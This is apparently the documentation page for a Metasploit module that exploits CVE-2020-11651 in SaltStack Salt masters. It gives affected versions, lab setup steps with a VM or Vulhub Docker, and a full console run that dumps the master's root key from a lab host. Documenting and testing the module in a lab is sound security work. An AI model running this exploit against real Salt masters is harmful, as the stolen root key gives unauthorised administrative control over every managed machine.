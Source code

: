 ## Vulnerable Application

### Description

This module exploits unauthenticated access to the `_prep_auth_info()`
method in the SaltStack Salt master's ZeroMQ request server, for
versions 2019.2.3 and earlier and 3000.1 and earlier, to disclose the
root key used to authenticate administrative commands to the master.

VMware vRealize Operations Manager versions 7.5.0 through 8.1.0, as
well as Cisco Modeling Labs Corporate Edition (CML) and Cisco Virtual
Internet Routing Lab Personal Edition (VIRL-PE), for versions 1.2,
1.3, 1.5, and 1.6 in certain configurations, are known to be affected
by the Salt vulnerabilities.

Tested against SaltStack Salt 2019.2.3 and 3000.1 on Ubuntu 18.04, as
well as Vulhub's Docker image.

### Setup

**Note:** I did the bulk of my testing after manually installing Salt in
an [Ubuntu 18.04 VM](#using-a-virtual-machine), but the [Docker image
from Vulhub](#using-docker) may be quicker. YMMV.

#### Using a virtual machine

1. Set up an Ubuntu 18.04 VM
2. Browse to [SaltStack's instructions for
   Ubuntu](https://repo.saltstack.com/#ubuntu)
3. Select `Pin to Minor Release` and change all versions to either
   **2019.2.3** or **3000.1**, depending on the version you wish to test
4. Follow the instructions, installing only the `salt-master` and
   `salt-minion` packages necessary for testing
5. Follow the [post-installation
   configuration](https://docs.saltstack.com/en/latest/ref/configuration/index.html)

You may now begin testing.

#### Using Docker

**Prerequisites:** [Docker](https://docs.docker.com/get-docker/) and
[Docker Compose](https://docs.docker.com/compose/install/) must be
installed first.

**Note:** The Salt master is already configured and running in the
following scenario. The majority of the steps below are for configuring
and starting the minion. Version **2019.2.3** will be used.

1. Run `git clone https://github.com/vulhub/vulhub`
2. Run `cd vulhub/saltstack/CVE-2020-11651`
3. Run `docker-compose up -d` to start the container in the background
4. Run `docker exec -it cve-2020-11651_saltstack_1 bash` to drop to a
   root shell inside the container
5. Run `echo $'127.0.0.1\tsalt' >> /etc/hosts` to add the master to
   `/etc/hosts` (this allows the minion to find the master)
6. Run `salt-minion -d` to execute the minion in the background
7. Run `salt-key -A` and accept the key for the minion

You may now begin testing.

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Actions

### Dump

This dumps the Salt master's root key by sending the `_prep_auth_info()`
method and extracting the key from the resulting serialized auth info.

## Scenarios

### SaltStack Salt 2019.2.3 on Ubuntu 18.04

```
msf > use auxiliary/gather/saltstack_salt_root_key
msf auxiliary(gather/saltstack_salt_root_key) > options

Module options (auxiliary/gather/saltstack_salt_root_key):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   4506             yes       The target port (TCP)


Auxiliary action:

   Name  Description
   ----  -----------
   Dump  Dump root key from Salt master


msf auxiliary(gather/saltstack_salt_root_key) > set rhosts 172.28.128.5
rhosts => 172.28.128.5
msf auxiliary(gather/saltstack_salt_root_key) > run
[*] Running module against 172.28.128.5

[*] 172.28.128.5:4506 - Connecting to ZeroMQ service at 172.28.128.5:4506
[*] 172.28.128.5:4506 - Negotiating signature
[+] 172.28.128.5:4506 - Received valid signature: "\xFF\x00\x00\x00\x00\x00\x00\x00\x01\x7F"
[*] 172.28.128.5:4506 - Sending identical signature
[*] 172.28.128.5:4506 - Negotiating version
[+] 172.28.128.5:4506 - Received compatible version: "\x03"
[*] 172.28.128.5:4506 - Sending identical version
[*] 172.28.128.5:4506 - Negotiating NULL security mechanism
[+] 172.28.128.5:4506 - Received NULL security mechanism
[*] 172.28.128.5:4506 - Sending NULL security mechanism
[*] 172.28.128.5:4506 - Sending READY command of type REQ
[+] 172.28.128.5:4506 - Received READY reply of type ROUTER
[*] 172.28.128.5:4506 - Yeeting _prep_auth_info() at 172.28.128.5:4506
[+] 172.28.128.5:4506 - Received serialized auth info
[+] 172.28.128.5:4506 - Root key: bv2Ra72DXzkrbFVYNPHrOe9CqM2aKBdl+E46/m/kaxvDsiLxhG+0PS55u704MyOi2/PgD/EadGk=
[*] 172.28.128.5:4506 - Disconnecting from 172.28.128.5:4506
[*] Auxiliary module execution completed
msf auxiliary(gather/saltstack_salt_root_key) > creds
Credentials
===========

host          origin        service                 public  private                                                                       realm  private_type  JtR Format
----          ------        -------                 ------  -------                                                                       -----  ------------  ----------
172.28.128.5  172.28.128.5  4506/tcp (salt/zeromq)  root    bv2Ra72DXzkrbFVYNPHrOe9CqM2aKBdl+E46/m/kaxvDsiLxhG+0PS55u704MyOi2/PgD/EadGk=         Password

msf auxiliary(gather/saltstack_salt_root_key) >
```
